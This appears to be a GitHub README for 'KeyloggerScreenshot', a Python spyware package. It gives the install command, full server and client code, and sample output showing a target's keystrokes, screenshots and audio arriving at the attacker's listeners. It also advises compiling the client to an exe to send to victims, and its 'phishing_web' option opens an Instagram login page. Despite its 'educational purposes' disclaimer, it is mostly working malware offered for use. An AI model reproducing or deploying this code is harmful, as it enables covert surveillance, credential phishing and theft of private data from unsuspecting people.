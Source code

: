 KeyloggerScreenshot
==================

Created by: Fawaz Bashiru

KeyloggerScreenshot allows the attacker to get all the information the target was typing and taking screenshot of specific minutes which is being calculated in the script and all the audio of the target was speaking will be stored where your server is located. You can open a link when the keylogger is executed. Follow the instructions to build your own server in "KeyloggerScreenshot"

check out my github (easier way):
https://github.com/Kill0geR/KeyloggerScreenshot

GITHUB-VERSION (SNEAK PEAK):

![kali_img](https://user-images.githubusercontent.com/106278241/206914635-c9d5e505-9499-4dce-91ed-5254f495929d.png)


SHOUT OUT TO:
==============

NAME: dyma020

link to his insta: https://www.instagram.com/dyma020/

He had the idea of the mouse information. He also build the graphical user interface. Big thanks to him

HOW DOES KeyloggerScreenshot WORK?
================================
To install KeyloggerScreenshot simply write:

`pip install KeyloggerScreenshot`

in your terminal

After that create a server:

Server
-----

````python
#EveryServer.py:
import KeyloggerScreenshot as ks
import threading

ip = "127.0.0.1"

ip_photos, port_photos = ip, 1111
server_photos = ks.ServerPhotos(ip_photos, port_photos)

ip_keylogger, port_keylogger = ip, 2222
server_keylogger = ks.ServerKeylogger(ip_keylogger, port_keylogger)

ip_listener, port_listener = ip, 3333
server_listener = ks.ServerListener(ip_listener, port_listener)

ip_time, port_time = ip, 4444
server_time = ks.Timer(ip_time, port_time)

threading_server = threading.Thread(target=server_photos.start)
threading_server.start()

threading_server2 = threading.Thread(target=server_keylogger.start)
threading_server2.start()

threading_server3 = threading.Thread(target=server_listener.start)
threading_server3.start()

threading_server4 = threading.Thread(target=server_time.start_timer)
threading_server4.start()
````


Then create the client

Client
------

````python
#client_target.py
import KeyloggerScreenshot as ks
import threading

thread_deleter = threading.Thread(target=ks.Local_Deleter.DeleteList.start)
thread_deleter.start()

ip = '127.0.0.1'
key_client = ks.KeyloggerTarget(ip, 1111, ip, 2222, ip, 3333,ip, 4444, duration_in_seconds=60, phishing_web="https://www.instagram.com/accounts/login/?__coig_restricted=1") # You can open a link when the keylogger starts
key_client.start()
````

You can specify the time of running in seconds in the "duration_in_seconds" variable

Essential Informations:
------------------------

* This module can be used in Windows and Linux

* The servers can now be run in the same file with the module threading

* The port number for each server should be different

* The server should obviously be run before the client

* You can just copy the following code and insert you ip-address in the variable "ip"

* You can find your ip-address in the command line by using the command "ipconfig"

* If you want a cool simulation you can specify that in ServerKeylogger by setting the Parameter simulater to True

* You can open a link that you can choose when the keylogger is executed. Set the Parameter "phishing_web" to your link

* If you really want to send this to work externally, you have to buy a server and download the code on my github.

* If backspace is pressed the last pressed character will be deleted from the list

Output
------
````
Cyan: ServerPhotos
Blue: ServerKeylogger
Green: ServerListener
White: Timer


Waiting for connection....Waiting for connection...
Waiting for connection...

Connection has been established with the ip 127.0.0.1
Time left: 02:59

Connection has been established with ('127.0.0.1', 63822)
Time left: 00:01Connection has been established with ('127.0.0.1', 63842)

Successful connection for 3 minutes and 20 seconds
"Audio of target.wav" has been saved to your directory
Connection has been established with ('127.0.0.1', 63843)
Text of target: Hello this is a test 123. 123 Nice it works have fun  guys 
1 Image have been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63824)
2 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63825)
3 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63829)
4 Images has been saved to your working directory
Waiting for connection...


Connection has been established with ('127.0.0.1', 63841)
5 Images has been saved to your working directory
Waiting for connection...

````
Directory of Attacker
----------------------
![endresult](https://user-images.githubusercontent.com/106278241/210905855-35bc8cc1-435e-4dc6-bae7-62fcdedd1484.png)

Additional
==========
* You can send "target.py" as an exe file to the target with "auto-py-to-exe"

* KeyloggerScreenshot is very easy to use.

* The servers can be used on any OS. The ideal target should use Windows as his OS

* DO NOT USE THIS TO ATTACK SOMEONE FOREIGN. THIS WAS BUILD FOR EDUCATIONAL PURPOSES.